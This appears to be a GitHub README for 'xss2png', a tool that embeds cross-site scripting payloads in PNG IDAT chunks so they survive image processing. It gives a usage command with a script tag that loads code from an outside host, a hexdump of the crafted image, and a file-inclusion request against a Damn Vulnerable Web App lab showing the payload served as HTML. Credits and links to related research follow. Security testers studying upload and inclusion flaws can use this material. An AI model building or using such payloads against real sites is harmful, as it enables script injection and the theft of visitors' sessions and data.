 # xss2png

A simple tool to generate PNG images with XSS payloads stored in PNG IDAT chunks

*Huge thanks to Nathaniel McHugh for sharing his PHP source code with me*

### Usage

```
~/$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
               ____                    
 __  _____ ___|___ \ _ __  _ __   __ _ 
 \ \/ / __/ __| __) | '_ \| '_ \ / _` |
  >  <\__ \__ \/ __/| |_) | | | | (_| |
 /_/\_\___/___/_____| .__/|_| |_|\__, |
                    |_|          |___/
 PNG IDAT chunks XSS payload generator

[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

[i] Generating final PNG output
[!] PNG output saved as: xss.png
```
### Example

<img src="xss.png">

```
~/$ hexdump -C xss.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
````

#### Damn Vulnerable Web App
`https://dvwa.capturetheflag.cz/vulnerabilities/fi/?page=../../hackable/uploads/xss.png`

```
HTTP/1.1 200 OK
Date: Fri, 23 Aug 2019 00:13:37 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3422
Connection: close

�PNG


IHDR  ���yIDATx�c�<SCRIPT SRC=\\XSS.VAVKAMIL.CZ></SCRIPT> �����=s3��K�_s������?��_�X1��	��~���go4��v�322��Q0
F�(�`��Q0
�4�%�۠IEND�B`�
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">
```

### Credits

fin1te  
Adam Logue  
huntergregal  
IDontPlayDarts  
Masato Kinugawa  
Nathaniel McHugh

### Relevant posts

06-2012 [Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

11-2015 [Bug-hunter's Sorrow](https://www.slideshare.net/masatokinugawa/avtokyo-bug-hunters-sorrow-en)

01-2016 [An XSS on Facebook via PNGs & Wonky Content Types](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)

03-2016 [Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

### Other tools

[PNG-IDAT-chunks](https://github.com/vavkamil/old-repos-backup/tree/master/PNG-IDAT-chunks-master)

[PNG-IDAT-Payload-Generator](https://github.com/huntergregal/PNG-IDAT-Payload-Generator)

[pixload](https://github.com/chinarulezzz/pixload)

### Stack Overflow

[PHP shell on PNG's IDAT Chunk](https://stackoverflow.com/questions/49144776/php-shell-on-pngs-idat-chunk)
